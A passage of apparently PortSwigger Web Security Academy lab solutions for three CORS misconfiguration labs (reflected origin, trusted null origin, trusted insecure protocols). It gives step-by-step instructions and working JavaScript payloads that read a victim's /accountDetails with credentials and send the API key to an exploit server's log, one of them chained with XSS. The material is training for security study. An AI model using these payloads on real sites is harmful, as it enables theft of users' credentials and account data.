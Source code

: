        function reqListener() {  
           location='/log?key='+this.responseText;  
       };  
    </script>`
6.  Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7.  Go back to the exploit server and click "Deliver exploit to victim".
8.  Click "Access log", retrieve and submit the victim's API key to complete the lab.

### Lab: CORS vulnerability with trusted null origin

1.  With your browser proxying through Burp Suite, turn intercept off, log in to your account, and click "My account".
2.  Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3.  Send the request to Burp Repeater, and resubmit it with the added header `Origin: null.`
4.  Observe that the "null" origin is reflected in the `[Access-Control-Allow-Origin](https://portswigger.net/web-security/cors/access-control-allow-origin)` header.
5.  In your browser, go to the exploit server and enter the following HTML, replacing `$url` with the URL for your unique lab URL and `$exploit-server-url` with the exploit server URL  
    `<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>  
      var req = new XMLHttpRequest();  
      req.onload = reqListener;  
      req.open('get','$url/accountDetails',true);  
      req.withCredentials = true;  
      req.send();  
      function reqListener() {  
        location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);  
      };  
    </script>"></iframe>  
    `  
    Notice the use of an iframe sandbox as this generates a null origin request.
6.  Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7.  Go back to the exploit server and click "Deliver exploit to victim".
8.  Click "Access log", retrieve and submit the victim's API key to complete the lab.

### Lab: CORS vulnerability with trusted insecure protocols

1.  With your browser proxying through Burp Suite, turn intercept off then log in and access your account page.
2.  Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3.  Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name.
4.  Observe that the origin is reflected in the `[Access-Control-Allow-Origin](https://portswigger.net/web-security/cors/access-control-allow-origin)` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
5.  Open a product page, click "Check stock" and observe that it is loaded using a HTTP URL on a subdomain.
6.  Observe that the `productID` parameter is vulnerable to [XSS](https://portswigger.net/web-security/cross-site-scripting).
7.  In your browser, go to the exploit server and enter the following HTML, replacing `$your-lab-url` with your unique lab URL and `$exploit-server-url` with your exploit server URL:  
    `<script>  
       document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"  
    </script>`
8.  Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.